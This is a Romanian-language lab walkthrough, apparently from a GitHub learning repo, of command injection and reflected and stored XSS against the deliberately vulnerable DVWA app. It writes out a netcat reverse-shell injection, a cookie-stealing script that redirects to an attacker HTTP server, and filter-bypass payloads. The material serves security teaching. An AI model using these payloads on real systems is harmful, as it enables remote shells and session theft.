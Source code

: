 ### Atac HTTP:
  - [Despre HTTP / HTTPS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_http_https.md)
  - In scop didactic, am folosit **DVWA** (Damn Vulnerable Web App). Pentru instalare si informatii aditionale: [link](https://github.com/digininja/DVWA).
  - Cuprins:
    - [Command Execution](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#command-execution)
    - [XSS reflected](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#xss-reflected)
    - [XSS stored](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/http_attack.md#xss-stored)  
 
## **Command Execution**
   - [Despre Command Injection](https://github.com/Dani780-C/Cyber-security/blob/main/learn/command_injection.md)
   - **Not hacked:** *introducem orice adresa IP (ex: 192.168.56.101)*  
   
     Raspuns:  
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_execution_normal.png)  
     Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_execution_low_nothacked.pcapng)  
   - **Hacked:**  
   
     **LOW**  
        - Sursa codului PHP:  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/source_code_low_command_execution.png)  
        
        Pentru ca nu avem niciun fel de validare pe input-ul form-ului, putem scrie orice adresa IP urmat de `;` sau `&&`.  
        De exemplu, executia unui reverse shell: intr-un terminal separat se va executa un listener `nc -lvp 4444`, iar in form-ul aplicatiei se va introduce `192.168.56.101; nc -e /bin/bash 192.168.56.101 4444`  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_reverse_shell.png)  
        
        Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_injection_reverse_shell.pcapng)  
       
     **MEDIUM**  
        - Sursa codului PHP:  
         
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_source_code_medium.png)  
        
        Codul PHP respectiv va inspecta string-ul primit din form si va scoate `;` si `&&`. Daca vom scrie `192.168.56.101; ls` nu se va executa comanda. Daca vom scrie `&` vom pune comanda `ping <adresa IP>` in background si astfel se va rula si urmatoarea comanda inlantuita in string-ul input-ului. De exemplu, vom introduce `192.168.56.101 & hostname & ls & pwd`. De asemenea, putem scrie `<orice string, dar nu o adresa IP valida> || ls`.  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_medium_1.png)  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_2.png)  
        
## **XSS (Reflected)**  
  - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md)  
  - **Hacked:**  
    
    **LOW**
      - Sursa codului PHP:

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_low.png)  
      
      Nu avem validare pe string-ul introdus de user. Putem folosi tag-ul `<script></script>` pentru a injecta cod.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
       
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_redirect_page_to_kali.png)  
      
    **MEDIUM**  
       - Sursa codului PHP:  

       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_source_code_medium_xss_reflected.png)  
       
       Urmatorul cod va scoate toate aparitiile string-ului `<script>` din input.  
       Pentru a putea injecta cod pentru a fi rulat, putem inlocui `<script>` cu `<SCRIPT>` sau `<script>` cu `<scr<script>ipt>`.  
       Spre exemplu, putem injecta: `<SCRIPT>alert(document.cookie)</script>` sau `<scr<script>ipt>alert(document.cookie)</script>`.  
       
       ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_reflected_medium_hacked.png)  

## **XSS (Stored)**  
  - [Despre XSS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/xss.md)  
  - **Hacked:**

    **LOW**  
      - Sursa codului PHP:  

      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_stored_xss_source_code_low.png)  
      
      Nu este nicio validare pe string-ul din form.  
      Intr-un terminal ne vom rula un server http pe portul 4444: `python -m http.server 4444`.  
      In aplicatia de pe masina Kali vom scrie in form in campul message `<script>window.location='http://192.168.56.101:4444/?cookie='+document.cookie</script>` pentru a ne redirectiona pagina catre `http://192.168.56.101:4444` si pentru a ne trimite cookie-urile user-ului.  
      Pe masina cu Windows 11, daca un user acceseaza pagina cu XSS stored, codul i se va executa si lui, iar pagina lui va fi redirectionata la `http://192.168.56.101:4444`.  
      
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_xss_stored_windows11_cookie.png)  
